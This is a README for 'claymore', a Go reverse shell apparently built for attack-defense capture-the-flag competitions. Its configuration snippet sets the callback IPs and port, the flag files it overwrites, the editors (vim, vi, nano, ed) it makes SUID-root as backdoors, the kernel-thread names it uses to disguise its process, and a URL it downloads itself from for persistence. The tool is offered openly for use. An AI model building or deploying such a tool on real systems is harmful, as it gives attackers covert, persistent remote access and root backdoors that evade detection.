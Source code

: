 # claymore
Smart reverse shell.

- Reconnects back periodically.
- Renames itself to something unsuspicious.
- Overwrites the flag file constantly.

## Usage
Remember to change the options in the script. YOU MUST DO THIS
```
	//Define the list of IP addresses to connect to.
	ips := []string{"127.0.0.1", "localhost"} // Example list of IP addresses
	//Define the port to connect to.
	port := "1984"
	//Define the paths to all the ctf flag files to overwrite with our own.
	flagFiles := []string{"/home/justin/flag.txt"} // Example list of flag file paths
	//define the string to overwrite the flag files with.
	flag := "flag{this_is_a_fake_flag}"
	//define the list of binaries to add the suid bit to. (ROOT ONLY)
	setuidBackdoorBinaries := []string{"/usr/bin/vim", "/usr/bin/vi", "/usr/bin/nano", "/bin/ed"}
	//rename the process to something less suspicious.
	list_of_unsuspicious_filenames := []string{
		"[kworker/0:1]",
		"(sd-pam)",
		"[irq/16-vmwgfx]",
		"[scsi_eh_29]",
		"[acpi_thermal_pm]",
		"[kworker/0:0-events]",
		"[migration/0]",
		"[ksoftirqd/0]",
	}
	//Define the address to download this binary from for the persistence.
	downloadURL := "http://127.0.0.1:5000/hello"
```